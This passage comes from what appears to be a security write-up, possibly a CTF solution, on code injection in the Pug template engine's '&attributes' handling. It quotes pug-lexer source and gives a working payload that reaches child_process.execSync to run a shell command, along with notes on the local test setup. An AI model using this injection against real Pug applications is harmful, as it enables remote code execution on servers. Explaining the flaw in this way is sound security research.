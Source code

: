 So after the `&attributes` token, we take the next token and set it as the `val`. And later in `pug-code-gen`, this val is inserted directly into the JS code without validation or stringifying it! I looked into `pug-lexer` to see what type of token would be best suited for this. Then I found the code where an attributeBlock is lexed:

```javascript:pug-lexer/index.js
  /**
   * &attributes block
   */
  attributesBlock: function() {
    if (/^&attributes\b/.test(this.input)) {
      var consumed = 11;
      this.consume(consumed);
      var tok = this.tok('&attributes');
      this.incrementColumn(consumed);
      var args = this.bracketExpression();
      consumed = args.end + 1;
      this.consume(consumed);
      tok.val = args.src;
      this.incrementColumn(consumed);
      this.tokens.push(this.tokEnd(tok));
      return true;
    }
  },
```

As you can see, only a `bracketExpression` is allowed after the `&attributes` token.

```javascript:pug-lexer/index.js
  bracketExpression: function(skip) {
    skip = skip || 0;
    var start = this.input[skip];
    assert(
      start === '(' || start === '{' || start === '[',
      'The start character should be "(", "{" or "["'
    );
```


So we can use `()`, `[]` or `{}` brackets, and the token value will be everything in between. I chose curly brackets so that I could make function calls in the code without ambiguity, and tested the following payload locally:

```plaintext
div&attributes{global.process.mainModule.constructor._load("child_process").execSync('touch pwned.txt')}
```

# Testing environment setup

At this point it may be a good idea to briefly describe how I set up the environment for testing locally. The relevant dockerfiles were provided along with the source code, but I just ran node from my machine because it was faster (and the behavior probably won't have significant changes). I just added two print statements, a `console.dir(ast)` to see the node types, and a `console.log(code)` at the end to check the JS code run.
